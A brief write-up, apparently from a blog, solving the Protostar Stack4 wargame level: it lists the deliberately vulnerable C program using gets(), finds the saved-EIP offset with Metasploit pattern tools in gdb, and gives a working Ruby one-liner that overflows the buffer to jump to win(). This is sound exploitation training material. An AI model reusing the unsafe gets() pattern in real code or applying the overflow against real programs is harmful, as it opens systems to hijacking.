 ## Protostar Stack4
{% codeblock lang:c stack4.c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
{% endcodeblock %}

We use metasploit patterns (on Kali Linux) to determine the exact location of stored EIP:
{% codeblock %}
# Window 1:
root@kali32:~# /usr/share/metasploit-framework/tools/pattern_create.rb 80
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac

# Window 2:
user@protostar:/opt/protostar/bin$ gdb -q ./stack4 
Reading symbols from /opt/protostar/bin/stack4...done.

(gdb) r
Starting program: /opt/protostar/bin/stack4 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()

# Window 1:
root@kali32:~# /usr/share/metasploit-framework/tools/pattern_offset.rb 0x63413563
[*] Exact match at offset 76

# Window 2:
user@protostar:/opt/protostar/bin$ nm stack4 | grep win
080483f4 T win

user@protostar:/opt/protostar/bin$ ruby -e 'print "A" * 76 + [0x080483f4].pack("V")' | ./stack4 
code flow successfully changed
{% endcodeblock %}
